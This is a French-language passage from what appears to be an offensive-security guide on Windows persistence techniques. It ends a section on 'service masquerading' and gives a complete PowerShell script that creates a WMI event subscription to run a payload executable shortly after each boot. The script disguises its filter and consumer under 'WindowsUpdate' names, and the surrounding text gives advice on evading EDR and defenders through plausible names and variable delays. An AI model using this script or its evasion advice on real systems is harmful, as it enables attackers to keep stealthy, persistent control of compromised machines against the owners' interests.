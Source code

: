 Cette technique, appelée "Service Masquerading", exploite des services légitimes mais généralement inactifs pour exécuter des charges utiles malveillantes.

Du point de vue OPSEC, les services Windows sont étroitement surveillés dans les environnements sécurisés. Les modifications de services existants ou la création de nouveaux services sont souvent journalisées et peuvent déclencher des alertes. Pour minimiser les risques, il est recommandé d'utiliser des noms plausibles, de fournir des descriptions convaincantes, et de cibler des services rarement utilisés plutôt que d'en créer de nouveaux.

### WMI Event Subscription

Windows Management Instrumentation (WMI) offre un mécanisme de persistance sophistiqué et relativement discret. Les abonnements aux événements WMI permettent d'exécuter des actions en réponse à des événements système spécifiques.

Pour créer un abonnement WMI qui exécute une charge utile à chaque démarrage du système :

```powershell
$FilterName = "WindowsUpdateFilter"
$ConsumerName = "WindowsUpdateConsumer"
$ExePath = "C:\Windows\Temp\payload.exe"

# Créer le filtre d'événement (démarrage du système)
$WMIEventFilter = Set-WmiInstance -Class __EventFilter -Namespace "root\subscription" -Arguments @{
    Name = $FilterName
    EventNamespace = 'root\cimv2'
    QueryLanguage = 'WQL'
    Query = "SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System' AND TargetInstance.SystemUpTime >= 240 AND TargetInstance.SystemUpTime < 325"
}

# Créer le consommateur d'événement (exécution de la charge utile)
$WMIEventConsumer = Set-WmiInstance -Class CommandLineEventConsumer -Namespace "root\subscription" -Arguments @{
    Name = $ConsumerName
    ExecutablePath = $ExePath
    CommandLineTemplate = $ExePath
}

# Lier le filtre au consommateur
Set-WmiInstance -Class __FilterToConsumerBinding -Namespace "root\subscription" -Arguments @{
    Filter = $WMIEventFilter
    Consumer = $WMIEventConsumer
}
```

Ce script PowerShell crée un abonnement WMI qui exécute payload.exe environ 4 minutes après le démarrage du système. Le délai aide à éviter la détection immédiate et permet au système de terminer son initialisation.

WMI Event Subscription est considéré comme une technique de persistance avancée, moins connue et donc moins surveillée que les méthodes traditionnelles. Cependant, les défenseurs expérimentés et les solutions EDR modernes sont de plus en plus conscients de cette technique. Pour maximiser la discrétion, il est recommandé d'utiliser des noms plausibles, de cibler des événements légitimes, et d'introduire des délais variables.

